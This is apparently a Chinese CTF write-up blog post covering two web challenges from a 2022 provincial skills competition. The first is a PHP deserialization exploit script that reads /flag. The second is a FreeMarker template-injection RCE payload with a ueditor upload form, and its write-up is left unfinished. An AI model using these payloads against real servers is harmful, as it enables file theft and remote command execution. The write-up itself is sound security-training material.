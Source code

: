 ```yaml
---
layout: post
title: "2022年全省通信和互联网行业职业技能竞赛 WriteUp"
date: 2022-11-04
toc: true
author: Bin4xin
categories:
- blog
tags:
- CTF
- WriteUp
---
```


## # 1.Web PHP serialize

反序列化考点；题意：

定义了两个class，class A是去找传入进来的文件位置并做if存在判断，过程中对`$filepath`做base64解码；

```php
class A{
    public $files;
    public function findFile()
    {
        echo $this->files;
        if (file_exists(base64_decode($this->files->filepath)))
        {
            echo "This is a file";
        }else{
            echo "File not found";
        }
    }
    public function __destruct()
    {
        $this->findFile();
    }
}
```

第二个class B是对传入的`$filepath`做了一个简单的过滤判断，如果传入的字符符合`/flag`，那么就直接退出报`die("no")`；

```php
class B{
    public $filepath;
    public function shutdown()
    {
        die("no");
    }
    public function __toString()
    {
        $result = $this->filepath;
        if (strstr($result,"L2ZsYWc") || strlen($result)>8){
            $this->shutdown();
        }
        $result = base64_decode($result);
        $content = file_get_contents($result);
        echo $content;
        return "";
    }
}
```

最后就针对传入的参数做反序列化：

```php
@$a = $_GET['a'];
@unserialize(base64_decode($a));
```

所以定义两个函数传入`$filepath`，序列化后对字符串进行base64编码即可：

### exp

```php
 <?php
class A{
    public $files;
}
class B{
    public $filepath;
}

$a = new A();
$b = new B();

$a->files = $b;
$b->filepath = "Ly9mbGFn";
echo base64_encode(serialize($a));
?>
```

`php7 exp.php`

![2022-10-31-23.08.27.png](https://image.yjs2635.xyz/images/2022/11/03/2022-10-31-23.08.27.png)

## # 2.Web FunnyJava

题目给出了一个Jar包； IDEA引用lib直接反编译

直接定位`Controller`：

### Search Controller

```
FunnyJava.jar!/BOOT-INF/classes/com/funnnyjava/Controller/Search.class
```

```java
@RequestMapping(
        value = {"/search"},
        method = {RequestMethod.GET, RequestMethod.POST}
    )
    @ResponseBody
    public String search(HttpServletRequest request, HttpServletResponse response) {
        String search = request.getParameter("search");
        if (search == null) {
            search = "search.html";
        }
        ···
        return content;
    }
```
一个`/Search`功能，提供`search`参数返回相关内容；解析模版可以通过以下类中看到[^1]：

```
FunnyJava.jar!/BOOT-INF/classes/com/funnnyjava/util/ParserUtil.class
```

```java
String buildTempletPath = BasicUtil.getRealPath(context, "") + "templates" + File.separator;
```

### Editor Controller

第二个是一个ueditor的路由定义：

```java
@RequestMapping({"/static/plugins/ueditor/{version}/jsp"})
··· {
···
    @RequestMapping({"editor"})
    public String editor(HttpServletRequest request, HttpServletResponse response, String jsonConfig){
        ···
            }
        }
```

应该是一个上传功能的路由定义，但是我们看完两个Controller还暂时没有思路，上传点这里我们暂时放下不表；

### 解题思路

Search功能我们可以看到默认解析的是webapp中的`search.html`并返回；

Editor上传功能也有可能我们找到上传点，可以直接getshell；

所以目前有两个思路：

- 思路一：`Search`直接模版解析RCE；
- 思路二：`Editor`上传getShell；

### 本地调试

思路一：

```java
import freemarker.core.ParseException;
import freemarker.template.MalformedTemplateNameException;
import freemarker.template.TemplateNotFoundException;
```
我们可以看到搜索功能下导入的模版解析库；我们搜索关键词`Freemarker模板注入`，可以看到网上很多相关文章，而且在Jar包中其实也给了我们提示：

```
FunnyJava.jar!/BOOT-INF/classes/templates/1647232439869.htm
```
我们直接本地起环境，把代码放到模版位置，查看运行情况：

```html
<#assign exec="freemarker.template.utility.Execute"?new()> ${ exec("id") }
```

![2022-10-31-23.07.36.png](https://image.yjs2635.xyz/images/2022/11/03/2022-10-31-23.07.36.png)

我们可以看到，模版解析RCE。所以思路一没问题，那么我们应该怎么把我们生成的模版让服务器去执行呢？

思路二：

显然，需要通过`ueditor`的上传功能上传到`webapp/templates`目录下（前面已经解释目录来源），然后通过`search`功能来解析我们的恶意模版来达到RCE的目的；

#### 上传点突破

我们通过前面[Editor](#editor)的路由定义来找到路由如何访问，并定义相关参数上传我们的模版：

根据`@RequestMapping`的定义和`ueditor`的相关用法，找到上传的路由为：

```
http://localhost:8080/static/plugins/ueditor/1.4.3.3/jsp/editor?action=uploadimage
```

payload：

```html
<form action="http://localhost:8080/static/plugins/ueditor/1.4.3.3/jsp/editor?action=uploadimage" method="post" enctype="multipart/form-data">
    <div><input type="file" multiple="multiple" accept="image/*" name="image"></div>
    <div><input type="submit" value="上传"></div>
</form>
```

不过构造完payload上传后会一直提示`IO错误`；考虑有可能是写入文件格式不正确；

[//]: # (Mark TODO)

## REF

[^1]: [FreeMarker模板开发中StringTemplateLoader的用法](https://blog.csdn.net/weixin_41986096/article/details/105481817){:target="_blank"}
